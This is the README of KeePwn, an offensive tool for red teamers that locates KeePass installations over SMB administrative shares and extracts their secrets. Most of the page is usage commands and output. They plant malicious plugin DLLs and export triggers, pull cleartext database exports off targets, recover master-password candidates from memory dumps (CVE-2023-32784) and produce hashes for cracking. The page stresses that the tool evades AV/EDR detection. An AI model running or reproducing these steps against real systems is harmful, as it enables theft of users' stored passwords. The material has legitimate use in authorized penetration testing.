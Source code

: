![](./.github/images/keepwn_banner.png)

<p align="center">
  A python script to help red teamers discover KeePass instances and extract secrets.
</p>


## Features

- [x] KeePass Discovery
  - [x] Look for KeePass installation files through SMB C$ share.
  - [x] Accept multiple target sources (IP, CIDR, hostname, file).
  - [x] Check for KeePass metadata (version, last access time).
  - [x] Check for running KeePass process through Impacket-based RPC.
  - [x] Multi-threaded implementation to avoid bottleneck hosts.
  - [x] Export search results to CSV.
  - [ ] Find KDBX databases.
- [x] KeePass Plugin Abuse
  - [x] Add and remove KeePass plugins (see [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn)) through SMB C$ share.
  - [x] Retrieve cleartext exports on the remote host.
- [x] KeePass Trigger Abuse
  - [x] Add and remove triggers (see: [KeeThief](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2) from KeePass configuration file through SMB C$ share.
  - [x] Retrieve cleartext exports on the remote host.
  - [ ] Customize triggers with command line arguments.
- [x] KeePass Dump Parsing
  - [x] Parse memory dumps to find master password candidates (CVE-2023-32784).
  - [ ] Parse memory dumps to find encryption key.
- [x] KeePass Database Cracking
  - [x] Convert KDBX to John and Hashcat compatible formats.
  - [ ] Add support for [KDBX 4.x format](https://palant.info/2023/03/29/documenting-keepass-kdbx4-file-format).
- [x] Authentication
  - [x] Support LM/NT hash authentication.
  - [ ] Support Kerberos Authentication.
- [ ] Miscellaneous
  - [ ] Write unit tests.
  - [ ] Make the project available on [PyPI](https://pypi.org/) .

## Installation

```
git clone https://github.com/Orange-Cyberdefense/KeePwn && cd KeePwn
python3 -m pip install .
KeePwn --help
```

Or if you don't want to install but just run in a virtualenv:

```
git clone https://github.com/Orange-Cyberdefense/KeePwn && cd KeePwn
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt
python3 KeePwn.py --help
```

## Usage

<details><summary><b>Discovery</b></summary>

KeePwn's `search` module is used to identify hosts that run KeePass on your target environment:

```bash
$ python3 KeePwn.py search -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -tf ./targets.txt

[*] Starting remote KeePass search with 5 threads

[PC01.COMPANY.LOCAL] No KeePass-related file found
[PC02.COMPANY.LOCAL] No KeePass-related file found
[PC03.COMPANY.LOCAL] Found '\\C$\Program Files\KeePass Password Safe 2\KeePass.exe' (Version: 2.57.1, LastUpdateCheck: 48 minutes ago)
[PC03.COMPANY.LOCAL] Found '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
[PC04.COMPANY.LOCAL] No KeePass-related file found
[PC05.COMPANY.LOCAL] No KeePass-related file found
```

It makes use of Active Directory built-in C$ share to look for KeePass-related files in default locations, hence requiring administrator privileges on the targets.

The module will first look for *KeePass.config.xml* configuration file in each user's *%APPDATA%\KeePass folder*, as well as *KeePass.exe* in its default installation path (*C:\Program Files\KeePass Password Safe 2*). If a configuration file is found but KeePass is not installed globally, KeePwn will look for portable installations up to `--max-depth` subfolders.

This basic search technique should be enough to accurately determine if KeePass is used on a workstation or not. In addition, the `--get-process` option will use Impacket's RPC implementation to determine if KeePass is currently running on the target.

Various quality of life options are also included to let you export search results to a CSV file, display only targets where KeePass is found and adjust the number of parallel threads:

```bash
$ KeePwn search -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -tf ./targets.txt --threads 4 --get-process --found-only --output keepwn_out.csv

[*] Starting remote KeePass search with 4 threads

[PC03.COMPANY.LOCAL] Found '\\C$\Program Files\KeePass Password Safe 2\KeePass.exe' (Version: 2.57.1, LastUpdateCheck: 48 minutes ago)
[PC03.COMPANY.LOCAL] Found '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
[PC03.COMPANY.LOCAL] Found running KeePass.exe process (User: COMPANY\jdoe, PID: 3820)

[+] Search results logged to keepwn_out.csv
```

</details>
<details><summary><b>Plugin Abuse</b></summary>

KeePass features a [plugin framework](https://keepass.info/help/v2/plugins.html) which can be abused to load malicious DLLs into KeePass process, allowing attackers with administrator rights to easily export the database (see: [KeeFarceRebornPlugin](https://github.com/d3lb3/KeeFarceReborn#make-keepass-inject-keefarce-reborn-as-a-plugin)).

KeePwn's `plugin` module allows to :

- List currently installed plugins and enumerate the plugin cache

  ```bash
  $ KeePwn plugin check -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL                                   
  
  [*] No path specified, searching in default locations..
  [*] Found dbBackup.plgx in folder '\\C$\Program Files\KeePass Password Safe 2\Plugins\'
  [*] Found pDhkzWQYiobXhtBEEnbo in folder '\\C$\Users\jdoe\AppData\Local\KeePass\PluginCache'
  ```

- Add and remove your malicious plugins

  ```bash
  $ KeePwn plugin add -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL --plugin KeeFarceRebornPlugin.dll  

  [*] No path specified, searching in default locations..
  [*] Found KeePass Plugins directory '\\C$\Program Files\KeePass Password Safe 2\Plugins\'
  [!] About to add KeeFarceRebornPlugin.dll to KeePass Plugins directory, do you want to continue? [y/n]
  > y
  [+] Plugin successfully added to KeePass, wait for next restart, poll and enjoy!
  ```

- Poll %APPDATA% for exports and automatically moves it from remote host to local filesystem

  ```bash
  $ KeePwn plugin poll -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL                                  

  [*] Polling for database export every 5 seconds.. press CTRL+C to abort. DONE                                                                                                                                                                                
  [+] Found cleartext export '\\C$\\Users\jdoe\AppData\Roaming\export.xml'
  [+] Moved remote export to ./export.xml
  ```

These actions are made through SMB C$ share access, limiting AV/EDR detection as no command execution is performed.

</details>
<details><summary><b>Trigger Abuse</b></summary>

As described in [@harmj0y's blog post](https://blog.harmj0y.net/redteaming/keethief-a-case-study-in-attacking-keepass-part-2/) (and later CVE-2023-24055), KeePass trigger system can be abused in order to export the database in cleartext.

KeePwn's `trigger` module allows to :

- Check if a malicious trigger named "export" is currently written in KeePass configuration

  ```bash
  $ KeePwn trigger check -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL       

  [*] No KeePass configuration path specified, searching in default locations..
  [*] Found global KeePass configuration '\\C$\Program Files\KeePass Password Safe 2\KeePass.config.xml'
  [*] PreferUserConfiguration flag is set to true, meaning that local configuration is used
  [*] Found local KeePass configuration '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
  [+] No trigger found in KeePass configuration
  ```
  
  Note that KeePwn will prevent you to abuse plugins if the detected KeePass version is not affected by this technique.

- Add and remove a malicious trigger named "export" which performs a cleartext export of the database in %APPDATA% on next KeePass launch

  ```bash
  ❯ python3 KeePwn.py trigger add -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL       

  [*] No KeePass configuration path specified, searching in default locations..
  [*] Found global KeePass configuration '\\C$\Program Files\KeePass Password Safe 2\KeePass.config.xml'
  [*] PreferUserConfiguration flag is set to true, meaning that local configuration is used
  [*] Found local KeePass configuration '\\C$\Users\jdoe\AppData\Roaming\KeePass\KeePass.config.xml'
  [+] Malicious trigger 'export' successfully added to KeePass configuration file (it may be deleted if KeePass is already running)
  ```

- Poll %APPDATA% for exports and automatically moves it from remote host to local filesystem

  ```bash
  $ KeePwn trigger poll -u 'Administrator' -p 'P@$$w0rd!!' -d 'COMPANY.LOCAL' -t PC03.COMPANY.LOCAL                                  

  [*] Polling for database export every 5 seconds.. press CTRL+C to abort. DONE                                                                                                                                                                                
  [+] Found cleartext export '\\C$\\Users\jdoe\AppData\Roaming\export.xml'
  [+] Moved remote export to ./export.xml
  ```

If the configuration file path is not the default location, you can specify one with `--config-path` argument.

</details>
<details><summary><b>Memory Dumps Parsing</b></summary>

As described by [@vdohney](https://github.com/vdohney/keepass-password-dumper), it is possible to retrieve the database's master password in memory (CVE-2023-32784, affecting versions prior to KeePass 2.54). 

KeePwn `parse_dump` module will search for potential master password candidates in dumps. Because the resulting strings will (by design) be incomplete, the module can also be used to bruteforce the missing first character against a specified KDBX file.

```bash
$ python3 KeePwn.py parse_dump -d ./KeePass.DMP --bruteforce Database.kdbx

[*] Searching for the master password in memory dump.. done!                                                                                                                                                                                                 
[*] Found 15 candidates:
     ＿@$$w0rd!!
     ＿Ï$$w0rd!!
     ＿§$$w0rd!!
     ＿ñ$$w0rd!!
     ＿D$$w0rd!!
     ＿$$w0rd!!
     ＿\$$w0rd!!
     ＿#$$w0rd!!
     ＿y$$w0rd!!
     ＿k$$w0rd!!
     ＿9$$w0rd!!
     ＿;$$w0rd!!
     ＿H$$w0rd!!
     ＿>$$w0rd!!
     ＿a$$w0rd!!

[*] Bruteforcing missing symbol with the 254 most common unicode characters.. done!                                                                                                                                                                          
[+] Database.kdbx successfully unlocked using master password P@$$w0rd!!
```

The memory dump parsing makes use of [@CMEPW's Python PoC](https://github.com/CMEPW/keepass-dump-masterkey). Thanks for letting me re-use the code :)

</details>
<details><summary><b>Cracking KDBX Databases</b></summary>

keepass2john.py script by [@harmjoy](https://github.com/HarmJ0y) was ported to KeePwn with the help of [@0xSp3ctra](https://github.com/0xSp3ctra).

KeePwn `convert` will extract a crackable hash (john or hashcat format) from a KeePass Database. 

```bash
KeePwn convert -d ./Database.kdbx 

[+] Happy cracking! (hashcat -m 13400)
$keepass$*2*60000*222*b794eae002aff2a55a307bedeadebee210ee3c3596731f5acf2a1ff3add7d5af*7f19293f120717cbb88cdd27a3d4b9cb58316c61c625ca3a39f94c5a96b6135b*c004b3bc403730ce1bba15d5feda18e2*55a142d52798313c336c9442d824d7098ded3c5e161b76640100c99ec1cd95e1*60bb1f64c2bfff8a4e1eb43c533054f2f5c46fac19a867e7f80a1a71d6b68f17
```

It can be used with more arguments to specify the expected hash type as well as an output file path:

```bash
KeePwn convert -d ./Database.kdbx -t john -o ./Database.hash 

[+] Hash written to ./Database.hash, happy cracking! (john --format=keepass)
```

KDBX 4.x is not yet supported, you may use https://github.com/r3nt0n/keepass4brute. 
If you are in the mood for a PR https://palant.info/2023/03/29/documenting-keepass-kdbx4-file-format should be a good read :)

## Contribute

Pull requests are welcome (see: unchecked Features + some TODOs in code).

Feel free to open an issue or DM me on Twitter to suggest improvement.
